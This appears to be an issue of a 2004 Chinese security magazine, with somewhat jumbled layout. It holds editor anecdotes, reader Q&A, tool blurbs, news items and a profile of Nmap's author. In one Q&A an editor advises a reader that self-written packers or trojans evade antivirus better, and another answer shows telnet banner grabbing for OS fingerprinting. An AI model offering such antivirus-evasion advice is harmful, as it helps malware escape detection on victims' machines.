- **Socket：** 每当我感到生活节奏异常紧张的时候，我开始检讨自己，我究竟在忙什么？我技术上进步了吗，我工作努力了吗？我难以忍受精神上的空虚和寂寞，更加无法容忍自己在技术上毫无长进，这时候，我总是选择用知识和技术来充实自己，相信众多的黑防读者们，也会有和我相同的感受。

不知不觉，在黑防已经几个月了，在这几个月的工作和生活中，经历了太多的事情，也从作者、读者还有编辑部的同事们那里学到了很多东西。在这个大多数人都觉得虚无缥缈的网络中，我却真真切切地感受到了它的真实和可爱，我的工作、学习和生活都离不开网络，我迷恋于作者们精湛的黑客技术，喜欢和大家一起学习新的技术，更喜欢和黑防的读者们交流，听朋友们讲述自己的学习和生活感受，能够和大家聚在一起，自己觉得特别开心，但有时也因种种原因冷落了一些朋友，因此心里总存一份歉意……

由于工作的原因，一年来，通过网络认识了很多工作和生活上的朋友，无论年龄大小，学历高低，其实都不重要，重要的是我们都能感觉得到彼此的坦率和真诚，还有对安全技术无止境的追求，黑防让我们有缘相聚在一起，让我们一起进步，我们深感不易，同时也倍加珍惜！

- **icefire：** 北京处于华北地带，三月底的北京，呈现春回大地、桃红柳绿的迹象，杜甫就曾在《丽人行》中咏到：三月三天气新，长安水边多丽人。为了不辜负这大好春光，wtf特提议到郊外踏青，这个提议立即得到了众小编的一致赞成。于是30号众小编就围在那张硕大的会议桌研究去什么地方玩……

wtf说，来北京4个多月了，愣是从来没有好好逛过北京城，更不要说北京郊外了，所以大家提议去哪儿，他没有意见。于是众小编在摊开的北京地图上指指点点，可是商量了半天，就是定不下来。京城可是个好地方（蝴蝶：废话……），除去北京市区不说，单说郊外就有好多地方值得玩，如怀柔、密云、延庆……刘流说，既然有这么多地方可以游览，但没有那么多时间去所有景点啊！“有了……”脚本小子满面红光，“我们何不抓阄？在纸张写上心仪的地方，然后学那个彩票摇号的办法，来决定我们去哪儿，不好吗？”大家异口同声：好主意！蝴蝶兴奋地唱道：又是一年三月三，风筝飞满天……Socket嚷道：抓什么阄，用计算机编程序了。刘流马上抗议：你小子安的什么心我还不知道，就怕你在程序中做什么手脚……@#$#$%&

考虑到给兄弟的面子，刘流放过了Socket。第二天，Socket就郑重宣布：抓阄程序编制完毕！刘流说：且慢，icefire，给我上，把这个小子的程序逆向一下，看看有没有做手脚！“好嘞……”icefire摆开架势，拿出一堆反汇编的东西对程序大改特改，终于没有检测出问题，于是大家的抓阄活动开始！决定明天去密云玩！踏青活动正式开始！……

- **脚本小子：** 踏青！踏青！说到踏青我就烦！那天天天刚亮，俺背着俺的小书包就去了指定车站（蝴蝶……）


编按：3期的时候应读者对个人防火墙的要求，我们特意在4期黑防上安排了1万册的个人防火墙高级设置抵抗攻击的专题文章，并在攻册专门针对这样的防护方法推出了最新的攻击个人防火墙的方法！很多读者对此文章反映很好，论坛上的表扬声都弄得我们不好意思了，呵呵。以后如果大家还有这样的要求请及时与我们联系！我们会尽量给读者朋友们提供方便，多听听大家的表扬声，晚上睡觉很容易入眠的哦！做得不足的地方也请大家直接来论坛骂我们好了，呵呵，我们会尽量改进的！

论坛上魔廷风狂给我们提了很多建议和意见，非常感谢他，同时这位朋友很搞笑，常在论坛上给我们逗乐，前段时间还萌发了“突袭”黑防的想法，顺便还附诗一首，把编辑部全体编辑都搞得大笑不止。

魔廷风狂：我可不可以在假期参观黑防编辑部？我想了好久的，有次做梦都梦见wtf了（wtf：吐啊吐！你们梦我做什么！想吓死人啊！），其实我早就想去了，但是一直腾不出时间来。这次我一毕业，直奔北京，向黑防编辑部“冲”！（还要带上炸药包！谁叫wtf老删我帖子。）我可以去吗？

先争得你们的同意，我希望你们能同意，希望你们能圆我这个梦，我可是你们的忠实读者和忠实会员！现在附歪诗一首，争取能让群小编“集体自杀”，呵呵。

> 同是天涯共此时，  
> 相逢就在实验室。  
> 不理上天与下地，  
> 实验室里话相知。

众小编感动异常！脚本小子冒出来一句：吐啊吐的就习惯了……不过看到读者朋友们这样关心我们，我们很高兴，觉得自己的努力没有白费，虽然……

蝶：你那叫小书包啊！里面十多支鸡腿、二十多罐头，还有一堆乱七八糟吃的东西，可惜左等右等就是不见人！

- 8：30，icefire打电话说叫等他，他9点到……过去半个钟头。
- 8：55，icefire说去不了，家里有事。
- 9：02，刘流打电话说10点到……过去一个钟头，蝴蝶这个冤大头9点15分起来。
- 9：48，Socket打电话说来不了，朋友家有事。
- 10：09，刘流打电话说不来，妹妹家有事。
- 11：00，wtf发短信来：弟弟家有事！

今天是怎么了？为什么突然亲戚朋友们都有事了？苦了我和蝴蝶MM的四条腿啊（蝴蝶思索ing：这句好像有歧义哦……），从早上8点站到了中午11点半！再给小子们打电话，清一色关机！都有事？不可能！于是我和蝴蝶赌气就在旁边的小餐厅里将……

我带的东西全部解决掉！哼！自己不来，吃不上怪他们无福消受！（蝴蝶：别说了，说了我就气，吃了你的东西害我几天没胃口！下次再不和你一起出去了！）

12点正！当我们正在满足地拍着肚子收拾残局的时候，我和蝴蝶同时收到了短信，内容竟然是这样的：猪猪兄弟（妹妹），12点零五分在公司楼下的饭店里，公司全体员工吃大餐，逾时不候哟！对了，忘了告诉你，今天是愚人节！嘿嘿，wtf、刘流、icefire、Socket。

天啊！想我脚本小子聪明一生，怎么就糊涂一时呢！讨论是30号，抓阄在31号，决定玩是4月1号！看来这帮小子都会计算好了逗我和蝴蝶呢！等着瞧！看俺5分钟赶到吃饭的地方，风卷残云，把小子们的东西都吃光！看他们下次还敢玩我！哼！（蝴蝶：一场“人食大战”即将爆发……）

这位朋友用他的诗来“打击”我们，但是这样的朋友我们还是很欢迎的，欢迎各地朋友来参观黑防，提出你们的宝贵意见！我们将非常重视你们的意见和建议！一定不辜负大家的期望！

- **论坛 dsaf121：** 黑编你好，我对网络安全很感兴趣，最近一直在看你们的书，收获很大，但是很多东西不了解，现在请问一下编辑：如何判断对方的系统？有什么方法？最好是手工的。

- **脚本小子：** 手工判断对方操作系统的方法很多，ping、telnet、ftp或者用nmap等工具也可以实现，比较方便的是telnet，具体方法是：如果电脑开了80端口，我们可以telnet（当然如果有NC最好用NC，它可以不用盲打）它的80端口。

```text
C:\>telnet 192.168.0.2 80

输入 get 回车（注意这里是盲打）

如果返回下面的信息：

HTTP/1.1 400 Bad Request

Server: Microsoft-IIS/5.0

......
```

遗失对主机的连接，那么这台电脑的系统肯定就是Windows。

```text
如果返回：

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<HTML><HEAD><TITLE>501 Method Not Implemented</TITLE></HEAD><BODY><H1>
Method Not Implemented</H1> get to / not supported.<P>
Invalid method in request get<P><HR>
<ADDRESS>Apache/1.3.27 Server at gosiuniversity.com Port 80</ADDRESS>

</BODY></HTML>

遗失对主机的连接。

C:\>
```

那么多数就是UNIX系统了！

- **论坛 小武：** 怎么才能让木马或者后门不被查杀啊？我听说加壳然后脱壳就可以了，可是要怎么加？还有人说把扩展名改成杀毒软件不支持的，再在DOS下启动就可以了，怎么做？

- **icefire：** 你说的方法都不能很好地防止木马被查杀，一般自己写加壳程序，或者自己写木马，这些方式的木马后门隐藏性强些。其实根本没有永久不被查出的木马。如果确信你的水平能同时敌过5个网络高手的除外。因为，你编的那些木马，都是大部分利用人家已经发现的原理；什么隐藏于任务栏了，什么隐藏进程了，杀装了半天，仍然不会逃不过防火墙的火眼金睛，还是自己研究新的方式较好。

- **论坛 牛：** 如何在命令行方式下判断Win2000的版本？原来听哪个编辑说过，后来忘了！

- **脚本小子：** 很简单：type boot.ini。不过，如果人家改过boot.ini，那就不准确了。

- **论坛 魔廷风狂：** 黑防是否会考虑提供个人空间的事情？各种各样的个人空间在网上千姿百态、应接不暇。提供个人空间，既可以增加收入，也可以提高网站的知名度，真可所谓一举两得，一箭双雕，还可以作为技术交流！不知黑防是否会考虑一下呢？我相信注册的人一定会很多！

- **wtf：** 谢谢这位朋友给我们提的这些建议，我们会认真地考虑的，虽然很多热心读者都想在黑防拥有自己的一片天地，从我们来说，很愿意给大家提供这样的服务，让大家自己建立自己的小窝是很好的学习、交流方法——但是，现在黑防服务器在日益增长的访问率下，已经有点不堪重负了，如果这个时候考虑做空间服务的话，相信大家以后访问黑防都是个问题了。

不过，这位朋友的建议绝对是好的，编辑部经过考虑，目前提供这样的服务是比较不现实的，以后等时机成熟，黑防一定会提供这样的服务的，那时候就请大家多多支持咯。同时，既然说到了网站的构建，也给我们一个很明确的方向：以后黑防会提供详尽的建立各类功能全面、稳定性好、安全性一流的服务器或者网站的文章，相信一定能满足大家的需求，给大家带来更多提升自己实力的“本钱”！

### 工具：GnuPG/PGP（保护你的文件和通信数据的先进加密程序）

网址：http://www.gnupg.org/，http://www.pgp.com/

类别：开放源码／商业

平台：Linux/BSD/Unix/Windows

简介：PGP是由Phil Zimmerman开发的著名加密程序。它使用公钥加密算法和常规的加密技术相结合，能将加密后的文件安全地从一地传递到另一地，从而保护用户的数据免于窃听或其他的安全风险。GnuPG是遵照PGP标准开发的开源程序，不同的是，GnuPG是永远免费的，而PGP对于某些用途要收费。


### 工具：N-Stealth（Web服务器扫描工具）

网址：http://www.nstalker.com/nstealth/

类别：商业

平台：Windows

简介：N-Stealth是一款商业化的Web服务器安全扫描软件，通常它比whisker、nikto等免费的Web扫描器升级得更为频繁。N-Stealth开发商宣称的“超过20,000条的缺陷和exploit数据”和“每天新增大量的缺陷检查”是非常有吸引力的。我们也要注意到，在nessus、ISS、Retina、SAINT和SARA等所有常见的风险评估工具里已含有Web扫描组件，不过它们可能没有N-Stealth这样灵活易用和更新频繁。N-Stealth不公开源代码。


## 工具：AirSnort（802.11 WEP密码破解工具）

网址：http://airsnort.shmoo.com/

类别：开放源码

平台：Linux/BSD/Unix/Windows

简介：AirSnort是一款无线局域网密钥恢复工具，由Shmoo小组开发。它监视无线网络中的传输数据，当收集到足够多的数据包时就能计算出密钥。


## 工具：L0phtCrack 4（Windows口令审计和恢复程序）

网址：http://www.atstake.com/research/lc/

类别：商业

平台：Linux/BSD/Unix/Windows

简介：L0phtCrack试图根据从独立的Windows NT/2000工作站、网络服务器、主域控制器或Active Directory上正当获取或者从线路上嗅探到的加密哈希值里破解出Windows口令，含有词典攻击、组合攻击、强行攻击等多种口令猜解方法。


### 工具：Tripwire（功能强大的数据完整性检查工具）

网址：http://www.tripwire.com/

类别：商业

平台：Linux/BSD/Unix/Windows

简介：Tripwire是一款文件和目录完整性检查工具，它能帮助系统管理员和用户监视一些重要文件和目录发生的任何变化。通过制定一些基本的系统策略，在文件遭到破坏或篡改时由Tripwire通知系统管理员，从而能及时地做出处理。Tripwire的商业版本非常昂贵。在Tripwire.Org网站有一个免费的开源代码的Linux版本。UNIX用户也可能需要考虑AIDE（http://www.cs.tut.fi/~rammer/aide.html）；它是Tripwire的免费替代品。


## ——针对最新入侵与攻击的防范研究

- 总编辑：孙彬
- 执行主编：郭聪辉
- 编辑部主任：吴田锋
- 编辑：刘流、蝴蝶、脚本小子、草草虫、Socket、彭国军、刘志勇、谭磊
- 采编部主任：郭嘉
- 美编部：余钢城、李志华
- 技术部：徐生震
- 发行部：孙雁秋
- 邮购部：郭丽敏

- 光盘刊号：CN15-9201/TP
- 编辑：黑客防线编辑部
- 出版：家庭电脑世界杂志社
- 制作公司：北京地海森波网络技术公司
- 通信地址：北京中关村邮局008信箱
- 邮政编码：100080

- 技术支持电话：62141445-8031
- 投稿 E-mail：hacker@hacker.com.cn
- 问题解答 E-mail：answer@hacker.com.cn
- 网址：http://www.hacker.com.cn
- 发行部电话：62141446
- 发行部传真：62141360
- 邮购部电话：62141445-8011

- 常年法律顾问：北京风清律师事务所
- 王碧清律师
- 电话：13701229137
- 传真：(010) 84510532
- E-mail：wangbiqing@163.com

本刊所刊登文章和图片归北京地海森波网络技术公司所有，未经许可不得转载。本刊作者发表的文章仅代表个人观点，与本公司无关。

国内定价：10.00元人民币（光盘+说明书）

### 卷首语

### 业界动态

- 新闻动态 …… 2

## 名家专访

为梦想而奋斗

- ——访 Nmap 作者 Fyodor …… 4

## 专题企划

- WinNT 服务器权限与黑客的较量 …… 6

系统漏洞、脚本漏洞、第三方程序漏洞是现在服务器上存在的最大三个问题，而系统补丁、脚本补丁、第三方程序补丁等一系列补丁每个都需要详细设置并关注防范，这个工作细度可想而知。那你会问了：“有没有防护现在流行的各方面漏洞的全面技术呢？实现困难吗？”我们的回答是：“有！当然有！而且实现并不困难！”

## 漏洞攻击防范

- Defence：以太网第二层协议 …… 14
- 一步步加强 MySQL 的安全性 …… 15

### 脚本攻击防范

- 打造抵御 SQL 注入攻击的 MS SQL 服务器 …… 20
- 搜索引擎能奈我何 …… 22

一直以来大家都是千方百计让引擎搜索到自己的网站，怎么还要逃避它，让它找不到我们呢？——如果你的私人秘密也能被别人搜索到，那你会怎么想？不用费脑细胞了，该隐藏起来的还是要藏好！

- 表单……又见表单 …… 24
- 用 JavaScript 加密数据库 …… 26
- 小技巧防范 SQL 注入 …… 27

## 黑客攻击防范

- EMCO Eventlog 让网管更轻松 …… 28
- SecureIIS = IIS + IDS …… 29
- 战魂 PKIpfilter …… 32

## CVC 病毒专栏

- 分块插入感染理论与动态解密执行 …… 33
- 病毒中的另类 …… 35

## 网管之家

- 打造超级安全的 Windows 2003 终端服务 …… 37

终端服务的强大功能是广大网管人员的福音，给大家带来不少的便利，尤其对学校的微机室管理员，不啻于“救世主”。但另一方面，正因为 2003 终端的强大功能，使服务器屡屡在“不法分子”和调皮学生面前一次次地倒下，丢尽了管理员的脸。痛定思痛之下，许多管理员决定打造一个超级安全的终端服务！……

### 具备 SSL 连接的远程管理

- ——Win2003 的 Web 安全远程管理 …… 41
- 巧用代理 ARP 解决交换机端口不足 …… 44

大家是不是有过这样的经历呢？在宿舍组成了小网络，后来又多了一台计算机，偏偏交换机端口用完了，大家又不想花钱去买交换机或集线器，那怎么办呢？用 ARP！

### 安全方案

- 文件系统安全巧设置 …… 45
- 小技巧加强 IMAIL 安全性 …… 50
- 通通透透协议分析
- ——深入剖析邮局协议 …… 52
- IPSec 打造 FreeBSD 下信息的安全传输 …… 57
- 用 ISA Server “干掉” 非法邮件 …… 61

### 编读互动

## 主要优势：

- 高效性：使用嵌入技术对进出服务器的网络封包进行安全规则校验，不影响服务器的服务效率。
- 稳定性：具有身份认证和自动学习安全策略功能，保障服务器的稳定运行。
- 直观性：日志分析可以直观说明服务器的使用效率和服务质量。
- 安全性：具有很强的防攻击能力，对检测到的攻击自动产生对应的安全策略，保护服务器不再受到同样的攻击威胁。

### 适用平台

- Windows NT
- Windows 2000 Server
- Windows 2000 Professional
- Linux—RedHat：7.2/8.0/9.0

### RIFW-2003 策略 IP+ 网关防火墙

- 实用性：同时满足多条外线接入，提供多条外线 NAT 和 LB 功能。
- 方便性：多种网络接入方式，无需修改网络结构。
- 安全性：轻松抵御常见攻击方式，支持多帧内容过滤，轻松实现纯净网络环境。
- 高效性：最高支持 30M 流量，32 万并发连接数。

### 《黑客防线》2004年开篇再度回报读者

5000套无删减第4季度合订本隆重上市

430页内容+3张光盘，

价值惊喜价26.00元

### 限量发售，欲购从速！

## 2000年~2004年《黑客防线》完全合订本

总第1期~总第37期

- 超低定价38.00元=1期杂志1元钱
- 不可缺少的学习宝典；不可错失的资料宝库；不可多得的收藏精品。
- 一张光盘=多期《黑客防线》无删减合订本电子文件
- 多期全部文章涉及的代码
- 多期文章含排版源码
- 1000多名作者的1000多篇技术文章
- 光碟即点即看，简单方便，最全、最详细、最权威

全国各地图书市场、报刊零售点热卖！

邮购地址：北京中关村邮局008信箱 邮购部 邮编：100080

电话：010-62141446 传真：010-62141360

无须邮资，另加挂号费2元

## 【本月视点】

网络是动荡而危险的，很容易就波及到了我们每个关注网络安全的朋友：前几天，正当 mydoom 的邪恶力量被四面围追堵截而渐渐减风头的时候，许多朋友想去国内的各大黑客工具下载站看看最新发布的工具，突然发现小风居（http://www.chinesehack.org/）被黑！首页被替换成了大大的猪头；下载站中的巨头黑白也被挂上了别人的页面，大家在佩服入侵者的技术之外，又感到一种无比的厌恶！如果你发现漏洞，可以正式通知别人，而不是使用这样的方式去“提醒”别人！正是这样的人侵者，玷污了“黑客”的神圣名节！我们，不屑与这样的人为伍！

继小风与黑白被攻破后，Foxmail 爆出惊天漏洞，任何人只要利用一个简单的 exe 程序，就能通过给别人发送邮件而全面控制对方计算机！启明星公布这个漏洞的时候引起了社会各方面的关注，甚至出现了让人啼笑皆非的情况：有个人和团体都阻止这个漏洞的大面积传播！不得不说国人的安全意识在这方面还非常脆弱——如果没有漏洞的出现，怎么将程序或者软件进一步编制完善呢？难道不公布，让不怀好意的人去悄悄地利用而造成更大的危害？可笑！

系统漏洞的偶尔爆发加上脚本漏洞的不断涌现，让关注网络攻击的人有了更多的发挥余地，于是从原来黑客入侵后盗走整站数据再删除数据的恶意入侵方式，演变成了今天改页面、下载数据的方式。不得不说脚本的危害性正在逐步地扩大，留给我们的疑问也就转变成了如何构建安全的操作系统加上完善的脚本系统？

曾经风头强劲的入侵检测系统（IDS）也在使用中暴露出了诸多亟待改进的问题，继几大商业站点被入侵后，IDS 的功能受到质疑。它是使用传感器来监测网络通信，寻找恶意访问迹象，当网管员接到 IDS 的报警信息并采取相应措施时，经常为时已晚，而且 IDS 的误报也是老生常谈的问题，不合逻辑的成堆误报让管理员欲罢不能，耗费了大量的人力物力。于是新的“入侵防御系统（IPS）”又诞生了，在 IDS 只能监控而不能防护的前提下，IPS 能够积极地分析数据，直接阻断攻击——看似完美的理论在网络上掀起了巨大的冲击，褒贬不一。不过可以肯定的是：IDS 的终结与 IPS 的新起都将是新的攻击技术诞生的时刻，让 IDS 去误报吧！让 IPS 去消耗网络性能防御吧！新的攻击技术必将在防护技术提高的情况下水涨船高！

### 新闻动态

#### 思科提醒用户注意无线安全漏洞

思科最近表示，在其“无线局域网解决方案引擎”和“托管解决方案引擎”软件的某些版本中，输入一个用户名和密码，有可能使攻击者完全控制这些设备。攻击者可以利用默认登录在无线局域网中隐藏流浪接入点、创建和修改用户权限或改变配置设置。该漏洞影响无线局域网解决方案引擎 2.0、2.0.2 和 2.5 版，托管解决方案引擎 1.7、1.7.1、1.7.2 和 1.7.3 版，思科已在其网站为这两个产品发布了补丁程序。

#### 微软启动“安全峰会”计划

微软公司“安全事务部门”副总裁 Mike Nash 表示，在未来一段时间内，微软将派出 20 名高级管理人员在全国范围内对企业的开发人员和信息系统管理人员进行安全知识培训，旨在帮助更好地保护计算机系统。

据悉，该项目被称为“安全峰会”，其宗旨是在全球范围内培训出 50 万名信息技术工人，以此来改善目前的计算机安全问题。而微软的此次行动只是该计划的一部分而已。将来，微软计划在全球范围内开展类似的培训活动。微软已经意识到，仅仅通过升级补丁来解决安全问题是无济于事的。目前，他们已经开始倡导企业通过培训等渠道来改善目前的安全问题。

#### 病毒邮件高达 47%

近期金山在北京、上海、广州等 100 多个城市进行反垃圾邮件社会调查，统计结果显示：有 54% 的用户每天都会收到 1 至 5 封垃圾邮件，37% 的用户收到 5—20 封。在用户收到的垃圾邮件当中，病毒邮件占到了最高份额，达到了 47%。有 69% 的用户对病毒垃圾邮件感到非常厌恶。此次活动发放调查问卷 12 万份，涉及用户 10 万人次，回收有效调查问卷 83641 份。

#### 美 P2P 站点恐遭 NetSky 新病毒 DDoS 攻击

NetSky.Q 病毒最早于 4 月被发现，这种病毒会自动攻击 P2P 共享站点 Kazaa 和 eDonkey 等，攻击会持续六天。4 月中，新的 NetSky.T 病毒又被发现，持续攻击。防病毒机构 F-Secure 的总监 Mikko Hypponen 表示，这种攻击的后果可能会比较严重，一方面因为病毒攻击的目标都是一些小公司，它们无力加固自己的网络以防范大范围的 DDoS 攻击；另一方面因为 NetSky 病毒传播很广，因此如果出现部分网站因为攻击而瘫痪，也是预料中的事。此外，新的 NetSky 病毒也不再会自动清除用户电脑中的 Bagle 病毒了，这说明新的病毒变种可能并非原作者所编写。

#### 美投票软件公司公开检测软件漏洞

生产投票机器安全软件的制造商 VoteHere 在网络上公布了公司产品的源代码，公司希望搜集对软件方法的更多分析，以便核验电子投票的完整性。VoteHere 公司已经就自己的 VHTi 技术申请了专利，公司希望得到人们的评论，而不是竞争。所以该公司在公司网站上公布了软件源代码和一些文件。该公司的许可协议规定对软件分析的时间限制在 60 天内。

这家公司产品的功能是让投票人验证他们的投票经过恰当处理，这种软件将随机的认证号码数字分配给投票和候选人。在人们投票后，投票人收到一张收据，它表明选举人选择了特定的候选人，收据所显示的不是人名，而是数字。此后，选举人可以利用互联网和他们的选举认证码来检索自己的投票是否被正确地计票。

#### WinXP SP2 强调安全

预计微软将在今夏发布 Windows XP SP2，此次升级的重点将是强调安全特性。但有专家指出，此改变将可能导致微软技术支持电话激增的情况。因为为了强调安全性，Windows XP SP2 将会把众多安全功能默认为开启状态，这意味着用户要想连上无线网络、游戏服务器甚至家庭网络时，必须重新设定软件，但并不是每一个用户都精于这方面的应用。

微软以往疏于加强软件安全性，一直为人诟病，直到两年前盖茨决定调整软件开发重点，把安全性摆在首位，情况才得以改观。而此次的 Windows XP SP2 会完全改变系统对安全性的处理方式，比如自动开启防火墙，并整合操作系统中的安全功能。

此外，如果有什么区别的话，这个问题正在变得越来越糟糕。同时，将近 900 家机构最近经历了“最低限度严重性”的安全漏洞。CompTIA 推测，良好的培训和准备工作减少了安全漏洞的冲击。调查还发现，IT 员工接受安全培训有助于提高安全意识和处理事故。此外，在适当的地方放上书面安全政策也是防患于未然的措施之一。

网络威胁发展正呈上升趋势，由于新发现的漏洞的严重性与危险度都比以前有所提高，从漏洞被公布到漏洞被利用引发攻击的时间周期也被急剧缩短，因此，这使得企业与安全厂商的防范和堵漏变得更困难。而金融服务、医疗、电力和能源系统则成为遭受严重攻击最多的行业。

#### 知名游戏站首页被改

国际著名游戏站点 worthplaying 近期被黑客攻击，站点首页被黑客完全修改，黑客还留下了自己的 ID 与网站地址，甚至还有 E-MAIL 进行示威。

整个过程仅仅持续了几分钟，worthplaying 官方就将网站恢复正常，但这几分钟足以让这个骇客“扬名天下”。

#### 美公司研发出自动检查漏洞的新软件

美国加州的一家新兴软件公司 Fortify Software 于 4 月发布了两款新型软件包，其中一款可以探测用 C++ 和 Java 语言编写的源代码，另一款可以检查软件应用程序当中的安全漏洞。

Fortify 负责营销的副总裁迈克·阿米斯蒂德（Mike Armistead）表示，上述新型软件为企业提供了一种加强软件应用程序应对攻击能力的途径，因为这些软件可以在研发流程初期就探测和消除掉诸如缓冲器溢满、平台串错误以及产品代码中没有检查到的输入等。上述两款软件的核心是一项名为“延展静态检查”的技术，该技术可以对软件代码特性而不仅仅是完成程序的情况进行分析。这意味着 Fortify 的产品可以列举出计算机代码中的所有路径以便快速探测到计算机代码中的敏感区域，随后确定安全漏洞的具体范围。

#### 信息安全发展趋势研讨会将召开

第四届“中国信息安全发展趋势与战略”高层研讨会于 4 月 20 日在北京中国科技会堂举办，这是信息安全业界举办的一次高规格、高水平的行业研讨会。研讨会邀请国家信息安全各主管部门的领导、信息安全领域的资深专家学者、信息安全的生产和科研单位代表及各主要行业用户的代表 500 余人参会，通过此次研讨会汇集信息安全保障工作的新思考、新资讯，展示信息安全的新产品、新技术，为政府、专家、用户、企业搭建一个相互沟通交流和展示的最佳平台。

#### Mac OS X 存在安全漏洞

苹果公司为 Mac OS X 的黑豹版本（Panther）和美洲虎版本（Jaguar）发布了修正补丁，以解决操作系统中在打印、邮件和加密功能方面存在的安全问题，并校正在处理 Web 地址时出现的一个重大隐患。

苹果修正了 OpenSSL 中的两个安全隐患，这两个安全隐患能够导致电脑容易遭受“服务拒绝”（Denial of Service）病毒的攻击。苹果公司对 Mac OS X 操作系统在打印功能和系统邮件服务方面存在的缺陷几乎没提供什么消息。Mac OS X 使用的是自主版本的公共 Unix 打印系统。

#### 一垃圾邮件发送者面临 7 年监禁判决

纽约州总检察长办公室近日宣布，在检方发现其犯有身份盗窃和伪造行为后，这名曾发送了 7 亿封垃圾电邮的纽约州男子将面临七年监禁。

州检察当局起诉说，Carmack 使用盗窃的身份信息与伪造地址发送了 8.25 亿封垃圾电邮。州总检察长办公室官员说，Carmack 是根据新的州身份盗窃法而面临起诉的第一位被告。互联网服务提供商 EarthLink 公司在去年赢得了起诉 Carmack 赔偿 1650 万美元的判决。该公司称，公司官员参加了刑事法庭审判并提供了证言。

#### 六成 IT 安全漏洞属人为过失

“人为过失是安全漏洞的罪魁祸首”，84% 的组织认为，人为过失或多或少要对最近发生的重大安全漏洞负责。去年，63% 的安全漏洞源于人为过失，因此，如果有什么区别的话，这个问题正在变得越来越糟糕。

#### 互联网平均每天发现 7 个漏洞

一份最新的互联网安全威胁报告日前被赛门铁克公司公布出来。公布的报告显示，2003 年发现的漏洞总数为 2636 个，平均每天发现 7 个。报告还显示出，

> 有人可能会对 Fyodor 这个名字比较陌生，但是提起 Nmap，安全界的朋友则是无人不知、无人不晓了——如果你还不知道 Nmap，那么你一定看过《黑客帝国2》吧！还记得剧中女主角 Trinity 在 Linux 操作系统下，利用一种工具破解一个又一个关卡，其实，那个工具就是 Nmap！

### 为梦想而奋斗！

——访 Nmap 作者 Fyodor

记得去年 nmap-hackers 邮件列表中发起了最佳安全工具的评选活动，1854 个 Nmap 的用户参与了此次活动，因为是在 nmap-hackers 邮件列表中做出的评选，因此没有把 nmap 安全扫描器（http://www.insecure.org/nmap/）评选在内。这次评选出来的 75 个最佳安全工具在网络安全领域是一些很有代表性的软件，对于那些在网络安全方面不知从何处开始的新手们来说，这对他们有相当的参考价值，同时也足见 Nmap 的号召和普及力之大。（蝴蝶：我们每期都提供了几个小工具的彩页介绍，其实那就是从 nmap 的 75 个工具里面选出来的，大家可以用那些工具练练手。）

Nmap 是一个免费软件，被开发用于允许系统管理员察看一个大的网络系统有哪些主机以及其上运行何种服务。它支持多种协议的扫描，如 UDP、TCP connect()、TCP SYN（half open）、ftp proxy（bounce attack）、Reverse-ident、ICMP（ping sweep）、FIN、ACK sweep、Xmas Tree、SYN sweep 和 Null 扫描。nmap 还提供一些实用功能，如通过 TCP/IP 来甄别操作系统类型、秘密扫描、动态延迟和重发、平行扫描、通过并行的 PING 侦测下属的主机、欺骗扫描、端口过滤探测、直接的 RPC 扫描、分布扫描、灵活的目标选择以及端口的描述。Nmap 的具体用法我就不赘述了，网上的相关资料很多。

陀斯妥也夫斯基（Fyodor Mikhaylovitch Dostoevsky）的名字，并不是他的真实姓名，因为当时他比较喜欢看陀斯妥也夫斯基的一部小说，并起了这个名字，但陀斯妥也夫斯基并不是他的最喜欢的作者。有些人给他发电子邮件，间或提到陀斯妥也夫斯基的另一部小说的名字，但是他却对此一无所知，更有甚者，以为 Fyodor 是一个地地道道的俄国人！像其他的黑客也不用自己的真实姓名一样，这算是 ID 吧。

Fyodor 是计算机学士，有些黑客总是认为正规的教育没有必要，但 Fyodor 认为正规的教育对他的帮助很大，他希望每个人都要把握好现在的每一分每一秒，这样才能为将来打好基础。看来，Fyodor 对中国的那句话：“千里之行，始于足下”有比很多国人更深刻的感受。

说起 Fyodor 喜欢的操作系统，他还是比较钟爱 Linux、*BSD、Solaris 系统，但是他对 IRIX、HP-UX、Windows、VMS 系统却不感冒。作为一个自由软件的提倡者，或许他对这些系统不开源有些耿耿于怀——这也是国外普遍存在的现象，很多倡导计算机技术的人都不喜欢不开放源代码的操作系统，希望中国在某一天开发出自己的操作系统并且开源，那样我们这些喜欢网络安全的朋友能学到的东西将会更多！

#### Fyodor 的由来

事实上，Fyodor 是取自俄国著名小说家陀斯妥也夫斯基的名字。

> 自由软件理论旗手的埃里克·雷蒙德著的《大教堂和市集》里有一句话：“every good work of software starts by scratching a developer's personal itch.”，这句话一直激励着他对 Nmap 的更新，并且对外免费发布。Fyodor 起初是在 Apple II 机上学的 BASIC 语言，跟 Microsoft 的总裁 Bill Gates 起初学的语言一样，但是他却不像 Microsoft 那样把自己的源代码当作自己的“命根子”一样重要。

倡导黑客之间的“免费共享”精神——这就造就他是一个彻彻底底的开源的拥护者。

当被问起以前哪个年代最有黑客思想的时候，Fyodor觉得是在17世纪，因为他认为生活在17世纪的著名物理学家牛顿对学习有着非常高的热情，除了研究好他的本专业外，他当时读了许多关于数学的书（就好比现在的计算机编程），同其他的黑客一样，他还涉足其他的领域，比如，他对天文学有自己的独到的见解，最让Fyodor体会到牛顿身上黑客思想的是牛顿的一句话：“柏拉图是我的朋友，亚里士多德也是我的朋友，但我最好的朋友是真理。”

Fyodor和朋友的沟通喜欢使用email来通信，他并不像其他黑客喜欢在IRC下进行技术交流，如果他真想和别人聊天的话，他会叫上几个安全界的朋友，出去一边喝茶，一边聊天，这样他觉得会显得更有人情味，不但能促进双方技术的提高，还能促进双方的感情。

但是Fyodor并不是一个工作狂，他业余时间比较喜欢有挑战性的攀岩、徒步旅行、射击、慢跑等运动，他最喜欢的就是去未了解的地方旅行——这对于现在在做技术的朋友来讲是非常难能可贵的，奉劝大家一句：不要和社会脱节太严重，这个世界有很多美丽等着你去发掘！

## Nmap的“昨天、今天和明天”

在Fyodor刚设计Nmap的时候，他搜集了许多扫描器来研究，像Julian Assange的Strobe、Maimon的SATAN等等。起初，Fyodor对这些扫描器按照他的意愿进行了简单的修改，后来，他想要一种可以在大型的网络环境下高速并有效率地运行的扫描器，还要支持多种扫描类型，这个思路指导着Nmap的诞生！最初的版本是在1997年在著名的《Phrack》黑客杂志发布的，再经过一些朋友的帮助，Nmap就有了今天辉煌的成绩。

